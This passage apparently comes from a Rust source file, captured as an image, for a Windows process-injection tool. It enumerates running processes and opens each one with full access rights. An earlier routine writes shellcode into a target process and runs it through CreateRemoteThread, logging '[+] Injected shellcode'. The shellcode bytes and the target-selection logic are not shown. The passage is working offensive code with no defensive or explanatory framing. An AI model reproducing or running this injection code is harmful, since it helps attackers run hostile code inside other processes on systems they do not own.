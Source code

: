````rust

        println!("[+] Injected shellcode into process at {:p}", base_address);

        let mut thread_id = 0;

        CreateRemoteThread(
            handle,
            ptr::null_mut(),
            0,
            Some(std::mem::transmute::<
                _,
                unsafe extern "system" fn(*mut winapi::ctypes::c_void) -> u32,
            >(base_address)),
            base_address,
            0,
            &mut thread_id,
        );

        println!("[+] Created remote thread");
    };

    Ok(())
}

fn main() -> Result<(), Box<dyn std::error::Error>> {
    unsafe {
        let mut processes = [0u32; 1024];
        let mut bytes_returned = 0;

        // Enumerate processes
        if EnumProcesses(
            processes.as_mut_ptr(),
            std::mem::size_of_val(&processes) as u32,
            &mut bytes_returned,
        ) == 0
        {
            return Err("Failed to enumerate processes".into());
        }

        let num_processes = bytes_returned / 4;

        for &process_id in &processes[..num_processes as usize] {
            if process_id == 0 {
                continue;
            } // System Idle Process, skip it

            let h_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id);

            if h_process.is_null() {
                println!("[-] Couldn't open process {}", process_id);
                continue;
            }

            let mut process_name = [0u16; 260]; // MAX_PATH
            let name_len = GetModuleBaseNameW(
                h_process,
                ptr::null_mut(),
                process_name.as_mut_ptr(),
                process_name.len() as u32,
            );
            let process_name = String::from_utf16_lossy(&process_name[..name_len as usize]);

            println!("[+] Opened process {} (ID: {})", process_name, process_id);
````